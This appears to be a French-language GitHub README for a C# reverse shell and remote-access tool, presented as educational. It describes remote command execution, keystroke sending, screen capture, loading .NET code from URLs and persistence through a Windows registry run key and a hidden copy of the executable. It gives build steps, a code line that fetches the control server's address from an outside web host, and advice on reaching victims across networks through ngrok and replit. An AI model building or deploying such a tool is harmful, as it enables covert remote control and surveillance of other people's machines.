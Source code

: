 # README.MD
### Description du projet

Ce projet est une démonstration d'une reverse shell écrite en C#. Il s'agit d'un outil puissant pour la gestion à distance des systèmes, utilisé à des fins éducatives et de recherche.

#### Points clés du code

1. Connexion réseau : Le code utilise la classe TcpClient pour établir une connexion réseau avec un serveur distant. L'adresse IP et le port du serveur sont récupérés à partir d'un serveur web distant.

2. Cryptographie : Pour assurer la sécurité des communications, le code utilise l'algorithme de hachage SHA256 et un chiffrement XOR ainsi que le chiffrement RSA Pour un chiffrement simple de bout en bout. Les clés sont régénérées à chaque itération pour augmenter la sécurité.

3. Gestion des commandes : Le code est capable de lire les commandes à partir du flux de sortie standard d'un processus et de les envoyer au serveur. Il peut également lire les commandes du serveur et les exécuter sur la machine locale.

4. Fonctionnalités supplémentaires : Le code comprend des fonctionnalités supplémentaires telles que l'envoi de frappes de clavier, l'affichage de boite de messages, l'exécution de commandes de manière asynchrone, la capture d'écran à distance et le chargement de librarie .NET à partir d'URL.

5. Persistante : Le code tente de rendre la reverse shell persistante en ajoutant une entrée au registre Windows pour exécuter le programme au démarrage de la session de l'utilisateur. Il copie également le fichier exécutable dans un répertoire caché.


#### Utilisation
Pour télécharger .Net 7.0 en version portable, voir ici : https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.306-windows-x64-binaries

lien directe : https://download.visualstudio.microsoft.com/download/pr/3c443568-43b0-40b1-bb5c-3a6d8cd31876/e7d6c5b176b1c985a5f972dbf2c721b3/dotnet-sdk-7.0.306-win-x64.zip

##### compiler le client : 
Pour commencer, changer l'url à ligne 158 de client\Program.cs
```
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
ensuite compilez le client avec dotnet.exe
```
dotnet.exe publish client.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
client\bin\Debug\net7.0-windows\win-x64\publish
```
Puis publier le serveur : 
```
dotnet.exe publish server.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
server\bin\Debug\net7.0-windows\win-x64\publish
```
Pour se connecter au serveur depuis un autre reseau que le client, je vous conseille d'utiliser le service de tunneling ngrok et d'ajouter l'addresse IP et le port sur un serveur web avec un domaine fixe (par exemple sur un repl HTML, CSS, JS sur https://replit.com)
// L'addresse IP et le port doivent êtres séparré par deux points uniquement
ex : 
```
1.2.3.4:8080
```
### Démonstration

#### Pour information, les vidéos ont été enregistrées sur la même machine avec la protection en temps réel activée [sans envoyer d'échantillons], mais c'est bien CLIENT.EXE qui effectue les actions.

##### - Reverse Shell Si vous ne le voyez pas : https://github.0xsql.repl.co/reverse_shell.gif

##### MessageBox et SendKeys
Si vous ne le voyez pas : https://github.0xsql.repl.co/send_keys_and_msgb.gif
Exemple de commande msgb>/Votre Message SKS>/Vos Clés

##### remote-desktop
Si vous ne le voyez pas : https://github.0xsql.repl.co/remote-desktop.gif
Pour démarrer le bureau à distance, exécutez server-remote-video.exe dans remote-video\server-remote-video\server\bin\Debug et exécutez la commande sur server.exe : remote-desktop>/:8081

#### Avertissement

Ce projet est publié à des fins éducatives et de recherche. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.

